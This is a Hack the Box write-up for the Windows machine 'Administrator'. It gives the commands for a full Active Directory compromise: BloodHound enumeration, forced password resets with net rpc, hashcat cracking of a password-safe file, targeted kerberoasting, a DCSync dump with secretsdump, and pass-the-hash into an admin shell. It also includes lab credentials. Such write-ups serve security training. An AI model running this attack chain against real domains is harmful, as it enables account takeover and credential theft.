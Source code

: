 # Administrator

**Platform: Hack the Box**

**OS: Windows**

**Diffculty: Medium**


## Key Learnings

- Familiarize myself with enumerating AD networks using Bloodhound
- Abuse GenericAll and ForceChangePassword privileges to change user passwords using *net rpc*
- Exploit GenericWrite privileges by running a targeted kerberoasting attack on vulnerable account
- Abuse DCSync privs to dump SAM and LSA hashes and compromise the Domain Controller by passing the hash
- Use Hashcat to crack .psafe3 file


## **Disclaimer: Potential spoilers below**


## Walkthrough

1. Run nmap scan
2. Given olivia's credentials, run bloodhound to gather AD info
	1. `neo4j console`
	2. `sudo bloodhound`
	3. `sudo bloodhound-python -d administrator.htb -u olivia -p ichliebedich -ns [IP] -c all`
3. load bloodhound info
4. bloodhound finds that olivia has GenericAll privs over michael
5. change michael's password
	1. `net rpc password "michael" -U "administrator.htb"/"olivia" -S "[IP]"`
	2. type new password
6. michael has ForceChangePassword permission over benjamin
7. change benjamin's password 
	1. `net rpc password "benjamin" -U "administrator.htb"/"michael" -S "[IP]"`
8. benjamin can login to ftp, get Backup.psafe3 file
9. use hashcat to crack password on psafe3
	1. `hashcat -m 5200 Backup.psafe3 /usr/share/wordlists/rockyou.txt`
10. reveals password for psafe3 file is `tekieromucho`
11. opening the psafe3 file reveals 3 credentials:
	1. alexander
	2. emily
	3. emma
12. bloodhound shows the emily has GenericWrite privs over ethan
13. before doing kerberoast attack, need to fix clock skew
	1. On actual machine, not VM, go to cmd and cd into this folder `C:\Program Files\Oracle\VirtualBox`
	2. run this command `VBoxManage setextradata "VM name" "VBoxInternal/Devices/VMMDev/0/Config/GetHostTimeDisabled" 1`
	3. then, on Kali VM, run `sudo rdate -n [IP]`
14. now can do a targeted kerberoast attack on ethan using emily's credentials
	1. `targetedKerberoast.py --dc-ip [IP] -u emily -p UXLCI5iETUsIBoFVTj8yQFKoHjXmb`
15. this reveals ethan's password is `limpbizkit`
16. ethan has DCSync permission over Administrator.htb. This means ethan is local admin so can do secretdump
	1. `secretsdump.py administrator.htb/ethan:limpbizkit@[IP]`
17. this gives us Administrator hash so can do PtH with evil-winrm 
	1. `evil-winrm -i [IP] -u administrator -H [HASH]`
18. gives us admin shell and rooted!
